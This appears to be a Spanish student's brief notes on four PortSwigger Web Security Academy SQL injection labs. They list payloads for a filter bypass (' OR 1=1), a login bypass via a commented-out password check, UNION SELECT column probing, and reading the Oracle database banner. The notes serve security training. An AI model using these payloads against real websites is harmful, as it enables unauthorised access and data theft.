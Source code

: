 > Laboratorio 1

```html
https://ac241f1c1e1c928a80cc0b910061008d.web-security-academy.net/filter?category=gifts'+OR+1=1-
```

![1](/home/usuari2/Escriptori/DEVOPS/DEV-OPS/mis_assets/img/SQL inyection/1.png)



|Laboratorio 2

Añadimos en el campo usuario = Administrator’--

Añadimos en el campo contraseña = ‘’



![2](/home/usuari2/Escriptori/DEVOPS/DEV-OPS/mis_assets/img/SQL inyection/2.png)



| Laboratorio 3



Añadimos a partir de la categoría el siguiente código:

UNION SELECT NULL,NULL, NULL-



![3](/home/usuari2/Escriptori/DEVOPS/DEV-OPS/mis_assets/img/SQL inyection/3.png)



| Laboratorio 4



+UNION+SELECT+BANNER,+NULL+FROM+v$version--

![(/home/usuari2/Escriptori/DEVOPS/DEV-OPS/mis_assets/img/SQL inyection/4.png)



![5](/home/usuari2/Escriptori/DEVOPS/DEV-OPS/mis_assets/img/SQL inyection/5.png)